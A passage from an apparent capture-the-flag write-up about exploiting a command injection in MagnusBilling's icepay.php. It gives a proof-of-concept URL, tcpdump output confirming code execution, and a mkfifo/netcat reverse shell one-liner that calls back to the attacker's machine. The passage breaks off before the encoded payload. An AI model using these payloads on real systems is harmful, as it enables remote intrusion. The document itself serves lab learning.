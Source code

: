 
# PoC URL for Command Injection

http://magnusbilling/lib/icepay/icepay.php?democ=testfile; id > /tmp/injected.txt

Result: This PoC attempts to inject the id command.

[Replace Your Domain Name]
</pre>
<p>Unsure about the version we are running, I decided to simply test if the exploit worked. Therefore, I opened burpsuite and crafted an initial test payload that should ping my attacking machine if we have code execution.</p>
<img src="/images/billing/billing_ping_request.webp" alt="burpsuite ping payload request" class="postImage">
<p></p>
<img src="/images/billing/billing_ping_response.webp" alt="burpsuite ping payload response" class="postImage">
<pre>
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
07:43:38.197100 IP 10.9.235.177.49368 > 10.10.109.160.http: Flags [S], seq 3298687438, win 64240, options [mss 1460,sackOK,TS val 2069194663 ecr 0,nop,wscale 7], length 0
07:43:38.224464 IP 10.10.109.160.http > 10.9.235.177.49368: Flags [S.], seq 4199805466, ack 3298687439, win 62643, options [mss 1288,sackOK,TS val 3239529642 ecr 2069194663,nop,wscale 7], length 0
07:43:38.224503 IP 10.9.235.177.49368 > 10.10.109.160.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 2069194690 ecr 3239529642], length 0
</pre>
<p>Bingo, it seems our ping requests are hitting our machine meaning we have code execution!</p>
<p>Next, I tried crafting a reverse shell payload. After many failed attempts, I finally managed to get one working:</p>
<pre>
 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PORT >/tmp/f;
</pre>
<p> Url-encoded in burpsuite, it looks like this:</p>